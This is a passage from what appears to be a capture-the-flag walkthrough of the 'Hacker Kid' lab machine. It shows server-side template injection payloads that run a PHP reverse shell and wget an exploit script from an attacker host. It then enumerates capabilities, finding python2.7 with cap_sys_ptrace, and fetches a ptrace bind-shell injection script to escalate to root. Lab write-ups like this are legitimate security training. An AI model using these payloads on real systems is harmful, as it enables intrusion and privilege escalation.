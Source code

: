 and now simply run that `rev.php` file directly using the php cli in our SSTI exploit.
{% raw %}
```
http://hackerkid.blackhat.local:9999/?name={%import%20os%}{{os.system(%22php%20/tmp/rev.php%22)}}
```
{% endraw %}
![image14.png]({{site.baseurl}}/Images/vb-hackerkid/IMAGE14.png)

And that looks like a shell.

We do the standard enumeration and there is no sudo, no sitcky bits, no weird / custom binaries in bin folders, no crons, nothing listening on local only ports. However `getcap` returns something interesting.

```
saket@ubuntu:/$ echo $PATH
echo $PATH
/usr/bin:/bin
saket@ubuntu:/$ /usr/sbin/getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_ptrace+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

So lets priv esc by abusing sys ptrace. [Link](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc)

Lets check for any processes running as root.

```
ps -eaf
```

We randomly seem to have an apache2 instance running as root (process id 945)

```
root         945       1  0 07:37 ?        00:00:01 /usr/sbin/apache2 -k start
```

According to the article we need to spin up a BIND shell. so lets go look one up..

On kali lets get that BIND shell downloaded and ready to add to our target.

```
wget https://gist.githubusercontent.com/wifisecguy/1d69839fe855c36a1dbecca66948ad56/raw/e919439010bbabed769d86303ff18ffbacdaecfd/inject.py -O exploit.py
```

Then use our SSTI to run wget and download the `exploit.py` to `/tmp/exploit.py` on our target.
{% raw %}
```
http://hackerkid.blackhat.local:9999/?name={%import%20os%}{{os.popen(%22wget%20http://<attacker>:8000/exploit.py%20-O%20/tmp/exploit.py%22).read()}}
```
{% endraw %}
